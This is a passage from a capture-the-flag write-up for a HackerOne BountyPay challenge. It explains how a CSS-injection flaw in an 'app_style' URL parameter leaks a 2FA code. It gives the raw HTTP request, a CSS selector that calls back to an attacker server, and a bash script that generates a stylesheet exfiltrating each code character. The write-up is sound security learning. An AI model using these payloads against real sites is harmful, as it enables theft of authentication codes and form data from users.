 ```
POST /pay/17538771/27cd1393c170e1e97f9507a5351ea1ba HTTP/1.1
Host: app.bountypay.h1ctf.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://app.bountypay.h1ctf.com/pay/17538771/27cd1393c170e1e97f9507a5351ea1ba
Content-Type: application/x-www-form-urlencoded
Content-Length: 73
Connection: close
Cookie: token=eyJhY2NvdW50X2lkIjoiQWU4aUpMa245eiIsImhhc2giOiIzNjE2ZDZiMmMxNWU1MGMwMjQ4YjIyNzZiNDg0ZGRiMiJ9
Upgrade-Insecure-Requests: 1

app_style=https%3A%2F%2Fwww.bountypay.h1ctf.com%2Fcss%2Funi_2fa_style.css
```

The `app_style` parameter contains a full URL. I assumed that I might be able to point it to a server under my control and extract information via CSS injection.

Indeed, when pointing it at my server, I noticed requests from a headless chrome. The fact that the request did not seem to come from an application processing stuff but from a browser immediately pointed me towards CSS injection. Indeed - it was possible to make callbacks when a HTML element satisfies certain conditions by forcing the browser to load my own stylesheet that sets the `background:url` to another URL that points to the attacker server on elements using CSS regexes, e.g.:

```
input[name^="code"]{ background:url("https://[attackerserver]:9999/log"); }
```

Great! Luckily, searching for an `input` element starting with a `name` attribute with a value starting with `code` was my first (more or less educated) guess, but it took me some time to figure out the purpose of it. First I thought that it is just a single input field and wasted some time wondering why I did not get any results when querying for the content of the `value` attribute. After correctly guessing the next character, which was an underscore, it came to my mind that there could maybe be multiple `code_*` input fields and indeed: there is `code_1`  to `code_7`, which fits to the HTML `input` field for the challenge answer having a max length of 7. Therefore, I suspected that each input field contains one character of the 2FA code, which indeed was the case.

After knowing the input fields to target, I wrote a small bash script that generates an evil CSS stylesheet for revealing the values of those fields when the victim browser loads it instead of the real CSS:

```bash
#!/bin/bash

for i in {1..7}; do
        for v in {0..9}; do echo "input[name="code_$i"][value="$v"]{ background:url(\"https://[attackerserver]:9999/log_$i/$v\"); }"; done
        for v in {A..Z}; do echo "input[name="code_$i"][value="$v"]{ background:url(\"https://[attackerserver]:9999/log_$i/$v\"); }"; done
        for v in {a..z}; do echo "input[name="code_$i"][value="$v"]{ background:url(\"https://[attackerserver]:9999/log_$i/$v\"); }"; done
done
```
